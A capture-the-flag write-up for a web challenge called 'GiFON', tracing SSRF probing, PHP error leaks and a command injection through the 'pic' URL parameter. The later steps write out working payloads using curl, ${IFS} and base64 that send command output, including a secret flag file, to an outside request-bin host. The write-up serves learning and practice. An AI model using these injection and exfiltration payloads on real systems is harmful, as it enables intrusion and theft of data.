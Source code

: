 # GiFON
Category: Web, 200 points


## Description

> Jeff D. Spleier applied for a job in the ISA. His interview went really well and he seemed the right man for the job.
> 
> Naturally, we decided not to recruit him.
> 
> We suspect that he is in possession of some classified documents that must not be leaked. We worry that he might act out his revenge and publish them. We know that he maintains an online Gif Displayer. Probably irrelevant, but who knows?

## Solution:

We visit the attached link and arrive to a website called "The Gif Displayer".

It has a dropdown menu:

```html
<select class="form-control" id="pic" name="pic">
    <option disabled selected value> -- select an option -- </option>
    <option value="https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif">Dogs</option>
    <option value="https://media.giphy.com/media/l1KVboXQeiaX7FHgI/giphy.gif">Monkey</option>
    <option value="https://media.giphy.com/media/xULW8PLGQwyZNaw68U/giphy.gif">Gremlims</option>
    <option value="https://media.giphy.com/media/SwCuRzaVTkxvTpEDzO/giphy.gif">Dog 2</option>
    <option value="https://media.giphy.com/media/l4FGr3nzq5u0m02vm/giphy.gif">Baby</option>
</select>
```

Once we select an image, it is displayed on the webpage together with a hash:
```html
<div class="col-lg-12 ">
    <img class="col-lg-12 order-lg-2 text-white showcase-img" src='https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif'>
    <div class="col-lg-12 order-lg-2">file md5: 59ce667c5cb01232122c426168265bf2</div>
</div>
```

The displayed hash is the hash of the contents of the GIF file:
```console
root@kali:/media/sf_CTFs/shabak/GiFON# curl https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif -s --output - | md5sum
59ce667c5cb01232122c426168265bf2  -
```

Of course, when we see a URL such as `http://gifon.shieldchallenges.com/?pic=https%3A%2F%2Fmedia.giphy.com%2Fmedia%2FSggILpMXO7Xt6%2Fgiphy.gif`, the first thing we want to do is to exploit an SSRI vulnerability by providing a path to an internal resource.

If we try to access a resource such as `http://gifon.shieldchallenges.com/?pic=file:///etc/passwd`, we get an error response that `not a valid gif or http url`. From some trial and error, we learn that in order for a `pic` to be accepted, it must start with `http` and end with `.gif`. It's easy to end URLs with `.gif`, we just need to prepend a question mark (`http://www.example.com?.gif`) to make the required suffix act as a URL parameter. Having to start with `http` though means that we can't access interesting protocols such as `file` or `php`.

When we enter a URL that doesn't exist such as `http://gifon.shieldchallenges.com/?pic=http://127.0.0.1?.gif`, we might back a hash of `d41d8cd98f00b204e9800998ecf8427e` which is the hash value of an empty string:

```console
root@kali:/media/sf_CTFs/shabak/GiFON# echo -n "" | md5sum
d41d8cd98f00b204e9800998ecf8427e  -
```

In other cases, we might get back the MD5 of the error page itself, e.g. for `http://gifon.shieldchallenges.com/?pic=http://gifon.shieldchallenges.com/admin?.gif` we get a hash of `90dad6df7303a62e387f5c142a9b2cd4` which is the MD5 of a 404 page:

```console
root@kali:/media/sf_CTFs/shabak/GiFON# curl http://gifon.shieldchallenges.com/admin?.gif -s | md5sum
90dad6df7303a62e387f5c142a9b2cd4  -
```

Trying a few more things, we find out that we can access files on the internal server via `127.0.0.1:8080`. For example, `http://gifon.shieldchallenges.com/?pic=http://127.0.0.1:8080/img/testimonials-1.jpg?.gif` gives a hash of `828e0935e45611b23593d139bd1984f1`:

```
root@kali:/media/sf_CTFs/shabak/GiFON# curl http://gifon.shieldchallenges.com/img/testimonials-1.jpg --output - -s | md5sum
828e0935e45611b23593d139bd1984f1  -
```

But still, we can't find anything interesting anywhere.

Eventually, we started looking for known PHP quirks. 

First, we tried turning `pic` to an array by accessing `http://gifon.shieldchallenges.com/?pic[]=https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif`.

As a response, the website returned:

```html
<div class="col-lg-12 ">
<br />
    <b>Warning</b>:  strpos() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>85</b><br />
    <div class="col-lg-12 order-lg-2 text-danger">not a valid gif or http url</div>
</div>
```

This is good, the server is outputting error messages which are leaking implementation details. We now know that the application calls `strpos($pic)`. However the real jackpot comes from trying to access `http://gifon.shieldchallenges.com/?pic=https://%00media.giphy.com/media/SggILpMXO7Xt6/giphy.gif`:

```html
<div class="col-lg-12 order-lg-2">file md5: <br />
    <b>Warning</b>:  system(): NULL byte detected. Possible attack in <b>/var/www/html/index.php</b> on line <b>92</b><br />
    d41d8cd98f00b204e9800998ecf8427e
</div>
```

Instead of calculating the hash using PHP's `hash`, the application is calling `system`! This means we can try a command injection attack.

We setup a request bin and start by trying to list the files in the current directory by accessing `http://gifon.shieldchallenges.com/?pic=http;curl${IFS}https://enp465kxnap1p.x.pipedream.net/?a=$(ls${IFS}|${IFS}base64);.gif`. Note that we use `${IFS}` since we can't enter spaces. The output is:

```html
<div class="col-lg-12 ">
    <img class="col-lg-12 order-lg-2 text-white showcase-img" src='http;curl${IFS}https://enp465kxnap1p.x.pipedream.net/?a=$(ls${IFS}|${IFS}base64);.gif'>
    <div class="col-lg-12 order-lg-2">file md5: {"success":true}d41d8cd98f00b204e9800998ecf8427e</div>
</div>
```

`{"success":true}` looks like a good sign, and indeed - our request bin receives a hit with `Y3NzCmd1bHBmaWxlLmpzCmltZwppbmRleC5waHAKc2VjcmV0CnZlbmRvcgo=`:

```console
root@kali:/media/sf_CTFs/shabak/GiFON# echo Y3NzCmd1bHBmaWxlLmpzCmltZwppbmRleC5waHAKc2VjcmV0CnZlbmRvcgo= | base64 -d
css
gulpfile.js
img
index.php
secret
vendor
```

There's a `secret` folder there, let's try to access it:
```curl
root@kali:/media/sf_CTFs/shabak/GiFON# curl http://gifon.shieldchallenges.com/secret
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /secret
on this server.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at gifon.shieldchallenges.com Port 80</address>
</body></html>
```

We can't access this address from outside, let's try to access it from inside with `http://gifon.shieldchallenges.com/?pic=http;curl${IFS}https://enp465kxnap1p.x.pipedream.net/?a=$(ls${IFS}secret|${IFS}base64);.gif`:

```console
root@kali:/media/sf_CTFs/shabak/GiFON# echo ZmxhZwo= | base64 -d
flag
```

What's left is to read the flag via `http://gifon.shieldchallenges.com/?pic=http;curl${IFS}https://enp465kxnap1p.x.pipedream.net/?a=$(cat${IFS}secret/flag|${IFS}base64);.gif`:

```console
root@kali:/media/sf_CTFs/shabak/GiFON# echo ZmxhZ3tESVMtSVMtRkxBRy1JLVItVkVSWS1INFgwUi1VLTI/fQ== | base64 -d
flag{DIS-IS-FLAG-I-R-VERY-H4X0R-U-2?}
```